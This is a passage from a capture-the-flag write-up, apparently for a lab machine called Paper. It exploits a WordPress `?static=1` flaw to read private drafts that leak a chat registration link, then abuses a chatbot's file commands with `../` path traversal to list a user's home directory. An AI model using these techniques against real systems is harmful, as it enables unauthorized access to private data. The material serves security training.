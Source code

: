 Reading about the vulnerability it is as simple as adding `?static=1` to view posts. <br>
`http://office.paper/?static=1` gives us:


> "Micheal please remove the secret from drafts for gods sake!"<br>
> "Michael, you have to stop putting secrets in the drafts."<br>
> "# Secret Registration URL of new Employee chat system http://chat.office.paper/register/8qozr226AhkCHZdyY"<br>
> "# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders."

Use the provided link and create an account to the rocket.chat platform. 

Reading the General chat we see that Dwight has created the bot `Recyclops` that is able to list- and fetch files. 
Start a private conversation with `Recyclops` and enumerate.

```bash
$ list
Fetching the directory listing of /sales/
total 8
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 .
drwx------ 12 dwight dwight 4096 Feb 14 15:17 ..
drwxr-xr-x 2 dwight dwight 27 Sep 15 13:03 sale
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 sale_2

$ list sale
Fetching the directory listing of sale
total 4
drwxr-xr-x 2 dwight dwight 27 Sep 15 13:03 .
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 ..
-rw-r--r-- 1 dwight dwight 158 Sep 15 13:03 portfolio.txt

$ file sale/portfolio.txt
<!=====Contents of file sale/portfolio.txt=====>
Portfolio
----------
- Bill
- Served the country in war
- Family built the country
- purchased paper worth a million dollars
- will probably fire me.
<!=====End of file sale/portfolio.txt=====>

$ list sale_2
total 4
drwxr-xr-x 2 dwight dwight 27 Jul 3 2021 .
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 ..
-rw-r--r-- 1 dwight dwight 113 Jul 3 2021 portfolio.txt

$ file sale_2/portfolio.txt
<!=====Contents of file sale_2/portfolio.txt=====>
Portfolio
----------
- Christian
- Still No idea how micheal made the sale!
- Need further clarifications.
<!=====End of file sale_2/portfolio.txt=====>

$ list ../
Fetching the directory listing of ../
total 76
drwx------ 12 dwight dwight 4096 Feb 14 15:17 .
drwxr-xr-x. 3 root root 20 Feb 14 15:22 ..
lrwxrwxrwx 1 dwight dwight 9 Jul 3 2021 .bash_history -> /dev/null
-rw-r--r-- 1 dwight dwight 18 May 10 2019 .bash_logout
-rw-r--r-- 1 dwight dwight 141 May 10 2019 .bash_profile
```